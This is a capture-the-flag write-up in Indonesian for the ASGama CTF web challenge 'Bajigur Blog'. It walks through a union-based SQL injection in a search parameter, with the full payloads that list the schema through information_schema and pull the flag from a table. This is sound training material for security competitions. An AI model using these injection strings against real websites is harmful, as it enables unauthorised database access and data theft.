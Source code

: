# __ASGama CTF__ 
## _Bajigur Blog_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 100 | l0l

**Description:** 

> http://ctf.asgama.web.id:40109/
>

### Bajigur Blog
Setelah recon, ditemukan bahwa ada celah SQL Injection.

Mengakses url  
`http://ctf.asgama.web.id:40109/?search=%27`  

Hasilnya :  
`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1 `


Setelah coba-coba dengan inject `union` ke dalam url, ditemukan bahwa terdapat 4 kolom. `?search=' and 0 union select 1,2,3,4 -- -`

Step:  
1. Cari nama database.  
`http://ctf.asgama.web.id:40109/?search=' AND 0 UNION SELECT 1,2,3,database() -- -`  
Database name : "gamactf_blog"
2. Cari nama table.  
`http://ctf.asgama.web.id:40109/?search=' AND 0 UNION SELECT 1,2,3,group_concat(table_name) FROM information_schema.tables WHERE table_schema="gamactf_blog" -- -`  
Table name : "flag,posts"  
3. Cari nama column.  
`http://ctf.asgama.web.id:40109/?search=' AND 0 UNION SELECT 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name="flag" -- -`  
Table name : " id,content"  
4. Tampilkan isi table.
`http://ctf.asgama.web.id:40109/?search=' AND 0 UNION SELECT 1,2,3,content FROM flag -- -`  

### Payload
```
http://ctf.asgama.web.id:40109/?search=' AND 0 UNION SELECT 1,2,3,content FROM flag -- -
```

### Result
```
GamaCTF{1nf0rm4t10n_sCh3m4}
```

### Flag
GamaCTF{1nf0rm4t10n_sCh3m4}